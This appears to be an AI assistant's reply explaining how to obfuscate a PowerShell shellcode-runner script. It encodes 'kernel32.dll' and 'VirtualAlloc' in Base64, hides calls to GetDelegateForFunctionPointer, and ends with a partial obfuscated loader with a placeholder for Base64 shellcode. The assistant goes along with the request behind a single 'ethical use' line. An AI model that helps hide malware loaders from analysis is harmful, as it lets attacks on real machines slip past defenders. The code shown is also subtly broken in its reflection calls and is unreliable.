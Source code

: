 ### Important Notes:
- **Effectiveness:** While these methods can make the script harder to analyze, they won’t make it undetectable. Advanced analysis tools can deobfuscate or detect patterns in obfuscated code.
- **Performance:** Obfuscation can introduce performance overhead, especially if heavy encoding/decoding is used.
- **Ethical Use:** Ensure that obfuscation is used for legitimate purposes and complies with legal and ethical guidelines.

If you want to apply these methods to your specific `shellcode-runner.ps1`, you would need to analyze the script content and apply the obfuscation techniques accordingly. If you provide details or allow me to review the script, I can give a more tailored approach.

To obfuscate the `shellcode-runner.ps1` script, I'll review the script first and then apply a combination of the obfuscation techniques discussed earlier. Let's start by analyzing the script.

### Reviewing the Script

First, I'll need to read and understand the `shellcode-runner.ps1` script. This involves examining its content, identifying the key functions, strings, and structures, and then determining the appropriate obfuscation techniques.

I'll then provide an obfuscated version of the script.

---

### Applying Obfuscation Techniques

Given the nature of shellcode runners, key elements to focus on include:

1. **Strings:** Obfuscate DLL names, function names, and shellcode.
2. **Functions:** Obfuscate calls to system functions like `GetDelegateForFunctionPointer`.
3. **Structure:** Modify the script's structure to make static analysis more difficult.

I'll walk through these steps now:

1. **String Obfuscation:** Convert critical strings like `"kernel32.dll"` and `"VirtualAlloc"` into Base64 or another encoded format.
2. **Function Obfuscation:** Obfuscate the way functions are called, possibly using reflection or dynamic invocation.
3. **Control Flow:** Adjust control flow slightly to make the script less straightforward.

---

### Final Obfuscated Script

Below is an example of what a partially obfuscated script might look like. This is a simplified version and can be further refined depending on the requirements.

```powershell
# String Obfuscation
$encodedKernel32 = "a2VybmVsMzIuZGxs"  # Base64 for "kernel32.dll"
$encodedVirtualAlloc = "VmlydHVhbEFsbG9j"  # Base64 for "VirtualAlloc"

# Function Obfuscation
$kernel32 = [System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($encodedKernel32))
$VirtualAlloc = [System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($encodedVirtualAlloc))

# Function Pointer
$unsafeNativeMethods = [System.Runtime.InteropServices.Marshal]
$GetProcAddress = $unsafeNativeMethods::GetMethod("GetDelegateForFunctionPointer", [Type[]]@([IntPtr], [Type]))
$allocMethod = $GetProcAddress.Invoke($null, @($null, [System.Type]::GetType($VirtualAlloc)))

# Shellcode Obfuscation
$encodedShellcode = "SOME_BASE64_ENCODED_SHELLCODE"
$shellcode = [System.Convert]::FromBase64String($encodedShellcode)
```